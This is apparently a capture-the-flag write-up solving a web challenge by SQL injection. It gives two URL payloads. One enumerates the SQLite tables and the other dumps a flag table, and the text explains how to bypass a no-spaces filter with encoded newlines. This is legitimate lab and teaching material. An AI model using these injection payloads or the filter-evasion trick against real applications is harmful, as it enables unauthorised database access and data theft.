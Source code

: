 First:
```
http://localhost:5000/search/keirwgnph';SELECT%0Aname%0AFROM%0Asqlite_master%0AWHERE%0Atype='table'-- 
```

Replace localhost:5000 with the server, note the trailing space

The SQL injection needs to have no spaces in it, so URL newlines (%0A) are used instead of spaces (%20) for whitespace characters. other whitespace works as well (typing it in the URL is so much easier than typing it the actual site)
This selects the various tables, so that you know where the flag is.

Then:
```
http://localhost:5000/search/a4toi3rgo3ith';SELECT%0A*%0AFROM%0Aflag;-- 
```

(again, replacing the url appropriately)

This gets the flag from the flag table, which you know exists after running the first injection.